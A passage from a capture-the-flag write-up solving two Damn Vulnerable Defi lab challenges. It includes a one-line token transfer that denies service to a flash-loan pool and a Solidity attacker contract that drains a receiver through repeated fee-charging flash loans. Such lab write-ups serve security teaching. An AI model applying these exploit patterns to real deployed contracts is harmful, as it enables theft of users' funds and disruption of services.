 ### Solution

Transfer 1 (or more) token(s) to the pool to complete the DoS attack:

```js:test/unstoppable/unstoppable.challenge.js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        await this.token.connect(attacker).transfer(this.pool.address, 1);
    });
```

## Challenge #2 - Naive receiver

[`NaiveReceiverLenderPool.flashLoan`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/3e2a3675f4a733557ee9417b97fee104c0110618/contracts/naive-receiver/NaiveReceiverLenderPool.sol#L21-L41) receives two arguments here. The first is the borrower's address, and the second is the amount to borrow. Since the `flashLoan` function is not checking whether the `borrower` is the `msg.sender`, we can trick the function by passing the address of the `FlashLoanReceiver` as the borrower's address. The pool asks for a `1 ether` fee for each executed `flashLoan`. We will have to keep executing the `flashLoan` function so often until the `FlashLoanreceiver`'s balance is drained by paying the fees each time.

### Solution

We will have to create a contract to execute the attack in one transaction. Inside our `attack` function, we will keep calling `flashLoan` with the receiver's address as long the receiver's balance is greater than or equal to the pool's fee:

```sol:contracts/attacker-contracts/naive-receiver/NaiveReceiverAttacker.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "../../naive-receiver/FlashLoanReceiver.sol";
import "../../naive-receiver/NaiveReceiverLenderPool.sol";

contract NaiveReceiverAttacker {
    function attack(address receiver, NaiveReceiverLenderPool pool) external {
        while (receiver.balance >= pool.fixedFee()) {
            pool.flashLoan(receiver, 0);
        }
    }
}
```

Now we only have to deploy our contract and call our `attack` function:

```js:test/naive-receiver/naive-receiver.challenge.js
    /** CODE YOUR EXPLOIT HERE */
    const NaiveReceiverAttackerFactory = await ethers.getContractFactory('NaiveReceiverAttacker', attacker);
    const naiveReceiverAttacker = await NaiveReceiverAttackerFactory.deploy();
    await naiveReceiverAttacker.attack(this.receiver.address, this.pool.address);
```
